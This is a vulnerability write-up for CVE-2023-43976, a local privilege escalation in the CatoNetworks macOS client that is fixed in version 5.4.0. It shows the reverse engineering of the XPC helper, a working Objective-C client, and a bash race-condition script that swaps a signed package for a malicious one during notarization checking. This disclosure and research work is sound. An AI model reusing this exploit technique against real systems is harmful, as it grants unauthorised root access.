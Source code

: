 ```yaml
---
title: CVE-2023-43976 - CatoNetworks macOS LPE
description: Exploiting notorization race conditions
date: 2023-12-28T13:53:24.217827+01:00
toc: false
tags:
    - reverse-engineering
    - frida
    - lldb
    - xpc
    - macos
refs:
    - https://www.catonetworks.com
    - https://github.com/NSEcho/vos/tree/main/CatoNetworks
draft: false
---
```


# Introduction

A couple of months ago, I have found Local Privilege Escalation vulnerability inside of CatoNetworks macOS application which is fixed in the version
5.4.0. We will see how to exploit the simple race condition in order to achieve escalation of privileges to _root_ user.

# Analysis

After examining `~/Library/LaunchDaemons/com.catonetworks.mac.CatoClient.helper.plist` we can see that the Mach service name is `com.catonetworks.mac.client.daemon` and 
the binary it runs is `/Library/Application Support/CatoNetworks/com.catonetworks.mac.CatoClient.helper`. We will take a note of the Mach service name because we will need 
it to communicate with the XPC service.

![CatoNetworks LaunchDaemon](../images/cato_ldaemon.png)

After we have obtained some limited information, we need to load the main binary in _Hopper_ to analyze what is happening and to check whether there are any vulnerabilities.

Searching for `listener:shouldAcceptNewConnection` revealed that the exported protocol is `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_`.

![Accepting new connection](../images/cato_listener.png)

Running class dump showed that this protocol contains a single method `- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;`.

![Exported protocol](../images/cato_protocol.png)

Based on the name, we can conclude that we need to provide the path to the `.pkg` file and we can check whether we have succeeded or not based on the reply block.

If we now search for implementation of this method, we can see that it calls function `sub_100002b7c`.

![Install package implementation](../images/cato_install_package.pkg)

![Main function](../images/cato_main_func.png)

Analyzing the `sub_100002b7c` function, we can see that it checks whether `sub_1000027b0` returned successfully, followed by creation of `NSTask` (to run programs).

![Creating NSTask](../images/cato_nstask.png)

Near the end of the function, there is another check which confirms whether probably the output of the run NSTask contains `\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`.

![Checking for string](../images/cato_string_check.png)

We will now create a minimal objc code to communicate with the service, and we will examine the arguments passed to `-[NSTask setLaunchPath:]` and `-[NSTask setArguments:]` methods with debugger (lldb).

The objc code:

```objc
// gcc cato.m -o cato -framework Foundation
#import <Foundation/Foundation.h>

static NSString * serviceName = @"com.catonetworks.mac.client.daemon";

@protocol _TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_
- (void)installPackageAtPath:(NSString *)arg1 withCompletion:(void (^)(BOOL))arg2;
@end

int main(int argc, const char **argv) {
    NSXPCConnection * conn = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:4096];

    [conn setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_)]];
    [conn resume];

    id obj = [conn remoteObjectProxyWithErrorHandler:^(NSError * error) {
           NSLog(@"Error: %@", error);
    }];

    NSString * pkgPath = [NSString stringWithCString:argv[1] encoding:NSASCIIStringEncoding];

    [obj installPackageAtPath:pkgPath withCompletion:^(BOOL succeeded) {
        if (succeeded) {
            NSLog(@"Exploit succeeded; check /tmp/himynameis");
        } else {
            NSLog(@"Exploit failed; please try again");
        }
    }];

    dispatch_main();
    return 0;
}
```

While inside of `lldb` we want to set the breakpoints and examine the arguments. Compiling the above code and running it as `./cato nsecho` gives the following 
inside of lldb.

![LLDB arguments](../images/cato_lldb.png)

From the lldb output we can conclude that the service is calling `/usr/sbin/spctl` with the arguments `-a -vvv -t install PACKAGE_PATH_WE_PROVIDED`. `spctl` is used to check notorization on the pkg files.

Running the exact command on the legitimate CatoNetworks package returns the output which contains the string we found earlier (`\norigin=Developer ID Installer: Cato Networks Ltd (CKGSB8CH43)`).

![spctl on Cato](../images/cato_spctl.png)

So far we now the following:

* Services uses `_TtP38com_catonetworks_mac_CatoClient_helper15CommandProtocol_` protocol
* We need to call `installPackageAtPath:pkgPath withCompletion:`
* Service checks whether the app is notorized by the Cato using `spctl`
* Gets installed if the previous check was successful

It seems that there is no way to exploit it, but after running spctl, I have noticed that it doesn't return immediately, it takes a couple of milliseconds, meaning that we have 
potential race condition here.

![spctl run](../images/cato_spct_lag.png)

To exploit this, we need to do the following:

* Run the exploit, providing the path to the legitimate Cato pkg file
* Wait a bit
* Replace the legitimate Cato pkg file with the malicious one
* Local Privilege Escalation

I will just add a simple command in the `postinstall` scripts which writes the current user to `/tmp/himynameis` file.

![postinstall script](../images/cato_postinstall.png)

_The exploit bash script:_

```bash
#!/bin/bash

ORIGINAL=/Users/demon/Downloads/CatoClient-2.pkg
FAKE=/Users/demon/Downloads/exploit.pkg
TEMP=/tmp/expl.pkg

while [ true ]
do
    cp "${ORIGINAL}" "${TEMP}"

    ./cato "${TEMP}" &
    sleep 0.1
    cp "${FAKE}" "${TEMP}"
    sleep 4
    stat /tmp/himynameis > /dev/null 2>&1 && exit 0
done
```

![Running the exploit](../images/cato_exploit.png)
